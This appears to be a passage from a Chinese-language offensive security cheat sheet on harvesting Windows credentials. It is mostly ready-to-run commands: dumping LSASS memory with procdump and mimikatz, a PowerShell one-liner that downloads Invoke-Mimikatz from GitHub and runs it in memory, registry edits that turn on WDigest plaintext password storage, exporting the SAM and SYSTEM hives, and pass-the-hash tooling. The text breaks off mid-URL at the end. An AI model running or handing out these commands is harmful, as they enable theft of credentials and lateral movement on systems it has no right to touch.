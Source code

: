 > schtasks /Query /TN mytask

> net time

> schtasks /Query /TN mytask

> schtasks /Delete /TN mytask /F

### mimikatz + procdump 获得内存 hash

如果服务器是 64 位，要把 Mimikatz 进程迁移到一个 64 位的程序进程中，才能查看 64 位系统密码明文。32 位任意

运行

> procdump.exe -accepteula -ma lsass.exe lsass.dmp(管理权限)

后 lsass.dmp 放到 mimikatz.exe 同目录，运行以下命令

> mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"

导出当前 

> mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"

> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Windows Server 2012, 部分 Windows Server 2008 默认无法使用 mimikatz 导出明文口令

解决方法：启用 Wdigest Auth, cmd:

> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

powershell:

> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

重启或者用户再次登录，能够导出明文口令, 参考下文：

3gstudent 自动Dump-Clear-Text-Password-after-KB2871997-installed

> https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed

### SAM-hash

管理权限：

> reg save HKLM\SYSTEM Sys.hiv
>
> reg save HKLM\SAM Sam.hiv

mimikatz:

> lsadump::sam /sam:Sam.hiv /system:Sys.hiv

### pass the hash

wmiexec 普通权限即可

> https://github.com/maaaaz/impacket-examples-window																 
